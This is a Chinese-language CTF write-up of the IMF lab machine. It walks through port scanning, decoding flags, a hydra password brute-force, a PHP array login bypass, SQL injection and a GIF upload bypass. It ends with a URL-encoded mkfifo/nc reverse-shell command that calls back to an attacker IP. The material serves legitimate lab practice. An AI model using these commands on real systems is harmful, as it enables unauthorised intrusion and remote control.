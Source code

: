 
## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/IMF]
└─$ sudo nmap -sT -sCV -O -p 80 192.168.110.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-22 02:45 EDT
Nmap scan report for 192.168.110.133
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: IMF - Homepage
MAC Address: 00:0C:29:2E:CA:9A (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (93%), Linux 3.16 - 4.6 (93%), Linux 3.2 - 4.9 (93%), Linux 4.4 (93%), Linux 4.2 (90%), Linux 3.13 (90%), Linux 3.18 (88%), OpenWrt Chaos Calmer 15.05 (Linux 3.18) or Designated Driver (Linux 4.1 or 4.4) (87%), Linux 4.10 (87%), Android 5.0 - 6.0.1 (Linux 3.4) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.46 seconds
```

只开了80端口

## web渗透

在concat页面找到一个flag值
![](images/2024-06-22-15-17-21.png)
base64解码得到：allthefiles
allthefiles没有找到利用点，也不是目录
![](images/2024-06-22-15-25-26.png)
同样位置查看源代码处找到三段base64
![](images/2024-06-22-15-26-05.png)
拿去base64解码得到第二个flag:imfadministrator
这个字符串是个目录

![](images/2024-06-22-15-30-17.png)
我无法让 SQL 工作，所以我硬编码了密码。它仍然很安全。 - 罗杰
意思是没法sql注入吗
用其它用户试试
![](images/2024-06-22-15-31-39.png)
发现这个地方变成了invaild passwd
说明存在这个用户rmichaels
开始爆破密码
```bash
┌──(kali㉿kali)-[~/workspace/IMF]
└─$ sudo hydra -l rmichaels -P /usr/share/wordlists/rockyou.txt 192.168.110.133  -s 80 http-post-form  "/imfadministrator/:user=^USER^&pass=^PASS^:F=Invalid
"Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-22 03:35:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.110.133:80/imfadministrator/:user=^USER^&pass=^PASS^:F=Invalid
[STATUS] 301.00 tries/min, 301 tries in 00:01h, 14344098 to do in 794:15h, 16 active
```
但是这里不是用这种方式进的后台
用的是php的漏洞
将pass输入改为数组，触发报错
![](images/2024-06-22-15-40-04.png)
flag3:continueTOcms
来到cms
看到有个参数控制页面
![](images/2024-06-22-17-41-19.png)
存在sql注入
用sqlmap跑出了一个隐藏的图片
![](images/2024-06-22-17-55-12.png)
扫码得到如下信息
![](images/2024-06-22-17-32-09.png)
解码：uploadr942.php
那么就找到上传口了
![](images/2024-06-22-18-08-41.png)
上传口做了校验，不能上传php不能上传图片马但是能利用gif绕过
使用gif执行命令
![](images/2024-06-22-18-09-29.png)

rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.110.128%202333%20%3E%2Ftmp%2Ff
成功反弹shell
![](images/2024-06-22-18-18-13.png)

## 提权
暂无